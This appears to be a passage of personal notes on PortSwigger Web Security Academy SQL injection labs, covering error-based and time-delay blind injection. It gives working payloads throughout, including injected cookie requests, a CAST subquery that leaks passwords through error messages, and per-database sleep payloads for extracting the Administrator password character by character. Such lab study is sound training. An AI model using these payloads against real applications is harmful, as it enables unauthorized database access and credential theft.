 ```sql
```
### Lab 13: [Visible error based](https://portswigger.net/web-security/sql-injection/blind#extracting-sensitive-data-via-verbose-sql-error-messages)
```http
GET / HTTP/2
Host: 0af000fe0401d85f815ecbf3004700b1.web-security-academy.net
Cookie: TrackingId='; session=r6u6ZENAujqp1VDHM3uelXVa8N5TjGXQ
```
```sql
Unterminated string literal started at position 36 in SQL SELECT * FROM tracking WHERE id = '''. Expected  char
' Because the errors are visible, we cause the errors:
CAST((SELECT password FROM users limit 1) AS int)
```
```http
GET / HTTP/2
Host: 0af000fe0401d85f815ecbf3004700b1.web-security-academy.net
Cookie: TrackingId='%3bselect+CAST((SELECT+password+FROM+users+limit+1)+AS+int)%3b'; session=r6u6ZENAujqp1VDHM3uelXVa8N5TjGXQ
```
Ans:
```sql
select cast((select password from users limit 1) as int)
```
### Lab 14 and 15: Time delays
```sql
-- Example usage:
'; IF (1=2) WAITFOR DELAY '0:0:10'--
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
```

```sql
; IF (1=1) dbms_pipe.receive_message(('a'),10)-- # nope Oracle
; IF (1=1) WAITFOR DELAY '0:0:10'-- # works Microsoft
; IF (1=1) SELECT pg_sleep(10)-- PostgreSQL
; IF (1=1) SELECT SLEEP(10)-- MYSQL

-- Usage:
%3bSELECT+CASE+WHEN+(1%3d1)+THEN+'a'||dbms_pipe.receive_message(('a'),10)+ELSE+NULL+END+FROM+DUAL+--+
%3bIF+(1%3d1)+WAITFOR+DELAY+'0%3a0%3a10'+--+
%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+--+_
%3bSELECT+CASE+WHEN+(1%3d1)+THEN+SELECT+SLEEP(10)+ELSE+SELECT+SLEEP(0)+END+--+

a.k.a: ; select case when 1=1 then...
;IF (SELECT substr(password,1,1) FROM Users WHERE Username = 'Administrator') > '0') WAITFOR DELAY '0:0:10'--

```
